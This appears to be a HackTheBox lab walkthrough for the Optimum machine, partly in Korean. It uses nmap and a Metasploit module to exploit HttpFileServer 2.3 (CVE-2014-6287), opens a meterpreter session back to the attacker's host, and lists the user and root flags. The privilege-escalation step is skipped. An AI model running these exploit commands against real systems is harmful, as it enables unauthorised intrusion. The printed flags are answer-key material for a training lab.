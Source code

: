 # HackTheBox Walkthrough - Machine: Optimum

**Target IP**: 10.129.19.252  
**Difficulty**: Easy  
**Objective**: Exploit HttpFileServer 2.3 (CVE-2014-6287) and escalate privileges to SYSTEM.

---

## 🧭 Task 1: Which version of HttpFileServer is running on TCP port 80?

### 🔍 진행 과정
```bash
nmap -sV -sC -oA nmap/Optimum 10.129.19.252
```

결과:
```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
```

### ✅ Answer: `2.3`

---

## 🐞 Task 2: What is the 2014 CVE ID for a remote code execution vulnerability in the findMacroMarker function in HttpFileServer 2.3 version?

### 🔍 진행 과정
- Google 검색: `hfs 2.3 findMacroMarker vulnerability site:cve.mitre.org`
- CVE 페이지: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287

### ✅ Answer: `CVE-2014-6287`

---

## 👤 Task 3: What user is the webserver running as?

### 🔍 진행 과정
```bash
msfconsole
search HFS 2.3
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.129.19.252
set LHOST 10.10.14.156
set SRVHOST 10.10.14.156
run
```

Exploit 성공 후:
```bash
meterpreter > getuid
```

결과:
```
Server username: kostas
```

### ✅ Answer: `kostas`

---

## 📄 Task 4: Submit the user flag

### 🔍 진행 과정
```bash
meterpreter > cd Desktop
meterpreter > cat user.txt
```

결과:
```
a8c34f2075cb73ab5b880a41f791d2ca
```

### ✅ Answer: `a8c34f2075cb73ab5b880a41f791d2ca`

---

## 🔑 Task 5 (Optional): What is the password for the kostas user?

### 🔍 진행 과정
```bash
meterpreter > sysinfo
```
- OS: Windows Server 2012 R2 x64
- meterpreter는 x86이므로 `migrate` 수행 필요

```bash
meterpreter > ps
meterpreter > migrate <explorer.exe PID>
```

### ✅ Password 추출은 불필요 / 진행상 참고용

---

## 📈 Task 6: Which metasploit reconnaissance module can be used to list possible privilege escalation paths?

### 🔍 진행 과정
- Exploit Suggestion
```bash
use post/multi/recon/local_exploit_suggester
```

또는 검색:
```bash
search suggester
```

### ✅ Answer: `local_exploit_suggester`

---

## 👑 Submit Root Flag

### 🔍 진행 과정

```bash
meterpreter > cd C:\Users\Administrator\Desktop
meterpreter > cat root.txt
```

결과:
```
1d7bd5edbe34d508c334bb28f5ab85ef
```

### ✅ Answer: `1d7bd5edbe34d508c334bb28f5ab85ef`

---
